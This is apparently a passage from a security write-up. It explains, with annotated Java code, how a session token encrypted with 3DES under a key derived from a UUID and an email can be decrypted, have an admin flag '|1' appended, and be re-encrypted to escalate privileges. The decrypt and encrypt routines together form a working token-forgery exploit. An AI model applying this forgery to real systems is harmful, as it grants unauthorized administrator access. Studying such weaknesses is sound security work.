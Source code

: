 here's the annotated code, so you can understand what's going on under the hood.

```java
public static String decryptToken(String user, String token, String uuid) {
    try {
        SecretKey key = getKeyForUser(user, uuid);  // generate the decryption key
        Cipher cipher = Cipher.getInstance("DESede/ECB/PKCS5Padding");  // set up the 3DES cipher
        cipher.init(Cipher.DECRYPT_MODE, key);  // initialize the cipher for decryption
        byte[] enc = Base64.getUrlDecoder().decode(token.getBytes("UTF-8"));  // decode the base64 token
        byte[] plain = cipher.doFinal(enc);  // decrypt the token
        return new String(plain, "UTF-8");  // return the plaintext token
    } catch (Exception e) {
        e.printStackTrace();
        return "";
    }
}
```

```java
private static SecretKey getKeyForUser(String email, String uuid) throws Exception {
    MessageDigest md = MessageDigest.getInstance("SHA-256");
    String keyText = uuid + email;  // concatenate the UUID + email
    byte[] keyArray = new byte[24];  // 3DES key size
    System.arraycopy(md.digest(keyText.getBytes("UTF-8")), 0, keyArray, 0, 24);  // generate the key
    return new SecretKeySpec(keyArray, "DESede");  // return the 3DES key
}
```

the `getKeyForUser()` method generates a decryption key by concatenating the UUID and the email, hashes it using **SHA-256**, and truncates the result to 24 bytes (the length needed for 3DES). the 3DES cipher is initialized using the generated key, and the token is decrypted and returned as a **plain text string**.

once the token is decrypted, i can **modify the role** within it to escalate my privileges. all i have to do is append the `|1` flag (`1` represents admin status) to the token and re-encrypt it, using the same UUID and the target email.

```java
public static String encryptToken(String user, String token, String uuid) {
    try {
        SecretKey key = getKeyForUser(user, uuid);  // generate the encryption key
        Cipher cipher = Cipher.getInstance("DESede/ECB/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, key);  // initialize the cipher for encryption
        byte[] enc = cipher.doFinal(token.getBytes("UTF-8"));  // encrypt the token
        return Base64.getUrlEncoder().encodeToString(enc);  // return the base64-encoded encrypted token
    } catch (Exception e) {
        e.printStackTrace();
        return "";
    }
}
```
